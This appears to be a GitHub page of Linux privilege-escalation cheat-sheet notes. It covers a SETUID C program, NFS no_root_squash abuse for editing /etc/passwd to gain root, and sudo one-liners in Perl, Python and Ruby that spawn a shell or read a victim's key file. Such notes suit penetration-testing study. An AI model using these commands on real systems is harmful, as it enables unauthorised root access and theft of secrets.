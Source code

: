    - check out which accounts have allowed shell access
    - system accounts (besides root) may have shell access even though their functionality does not require it
    - `sudo -l`: Reveal allowed sudo commands for current user
    - `id`: check the groups a user is belonging to
    - `find / -group [groupname] 2>/dev/null`: search for files assigned to this group
    - `chage -l user`: check PW policy of user

## HowTo
### SETUID
- write script file.c (as unprivileged user)
```
int main(void)
{
system("cat /file/to/path");
}
```
- then perform below CLI operations
    - `gcc file.c -o file`
    - `chmod +xs file`: perform as privileged user
    - `./file`: as unprivileged user

### NFS (Network File System)
- By default, NFS shares change the root user to the nfsnobody user, an unprivileged user account
- In this way, all root-created files are owned by nfsnobody, which prevents uploading of programs with the setuid bit set
- If `non_root_squash` is activated, a root user can access NFS and place a binary like `vi` with SUID enabled onto NFS server
- A non privileged user can SSH to NFS server and run `vi /etc/passwd` and change its UID to 0
- Logout and reconnect as normal user; The normal user will now have root privileges
- [Example PoE](https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/)


### PERL
```
sudo -u victim /usr/bin/perl -e '`/bin/bash`'
sudo -u victim /usr/bin/perl -e 'print `cat /home/victim/key.txt`;': with single quotes
sudo -u victim /usr/bin/perl -e "print `cat /home/victim/key.txt`;": with double quotes
```

### PYTHON
- `sudo -u victim python -c 'import os; os.system("cat /home/victim/key.txt")'`

### RUBY
- IRB = Interactive Ruby
- IRB is a Read-Eval-Print Loop, or REPL, a tool offered by many modern programming languages
- launch the irb executable and type your Ruby code at the prompt
- IRB evaluates the code you type and displays the results
```  
/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
# you will get following prompt
irb(main):001:0> 
# use system commands with backticks
irb(main):001:0> `cat /home/victim/key.txt`
```

